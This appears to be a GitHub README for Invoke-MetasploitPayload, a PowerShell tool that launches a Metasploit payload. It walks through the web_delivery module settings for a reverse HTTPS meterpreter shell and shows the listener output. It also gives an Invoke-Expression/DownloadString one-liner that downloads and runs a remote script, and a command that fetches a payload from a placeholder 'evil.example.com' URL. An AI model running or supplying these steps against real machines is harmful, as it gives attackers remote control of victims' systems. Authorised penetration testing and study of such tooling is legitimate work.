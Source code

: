 <h2 align="center">Invoke-MetasploitPayload.ps1</h2>
Invoke-MetasploitPayload is a Powershell script used to kick off a Metasploit payload. It relies on the exploit/multi/scripts/web_delivery Metasploit module.

#### The exploit/multi/scripts/web_delivery module
The web_delivery module generates a script for a given payload and then fires up a webserver to host said script. If the payload is a reverse shell, it will also handle starting up the listener for that payload. 

#### Example Usage
On your Metasploit instance, run the following commands

```
use exploit/multi/script/web_delivery
```
The SRVHOST and SRVPORT variables are used for running the webserver to host the script
```
set SRVHOST 0.0.0.0
set SRVPORT 8443
set SSL true
```
The `target` variable determines what type of script we're using. `2` is for PowerShell
```
set target 2
```

By default, the module will generate a random string to be used as the URL for the script webserver. You can specify your own with the URIPATH variable.

```
set URIPATH posh-payload
```

Pick your payload. In this case, we'll use a reverse https meterpreter payload
```
set payload windows/meterpreter/reverse_https
set LHOST 0.0.0.0
set LPORT 443
```

Run the exploit
```
run -j
```

Once run, the web_delivery module will spin up the webserver to host the script and reverse listener for our meterpreter session.

```
msf exploit(web_delivery) > run -j
[*] Exploit running as background job.

[*] Started HTTPS reverse handler on https://10.211.55.4:8443/
[*] Using URL: http://0.0.0.0:8080/posh-payload
[*] Local IP: http://10.211.55.4:8080/posh-payload
[*] Server started.
```

#### Getting the Payload URL
After running the web_delivery module, it will print out the URL for the webserver hosting the script file. If you specified a URIPATH, this will be something like `http://[IP_OF_METASPLOIT_INSTANCE]/[URIPATH]` else it will have random characters for the URL (`http://[IP_OF_METASPLOIT_INSTANCE]/[URIPATH]`).

This URL is what you'll pass to `Invoke-MetasploitPayload`. 

_**You can ignore the line about "Run the following command on the target machine"**_

![Web Delivery Example](/web_delivery_screenshot.png)

#### Using Invoke-MetasploitPayload.ps1

Usage is simple, first execute the PS1 file.

```
PS> Invoke-Expression (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/jaredhaight/Invoke-MetasploitPayload/master/Inv
oke-MetasploitPayload.ps1")
```

Then just pass the URL from the web_delivery module to Invoke-MetasploitPayload. It will handle spinning up a new process and then downloading and executing the script.
```
PS> Invoke-MetasploitPayload "http://evil.example.com/SDFJLWKS"
```

#### Acknowledgements

Invoke-MetasploitPayload is really just a repackaging of the PowerShell commands provided by the [web_delivery module](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/script/web_delivery.rb) to download and execute the script. My hats off to those authors for their hard work.
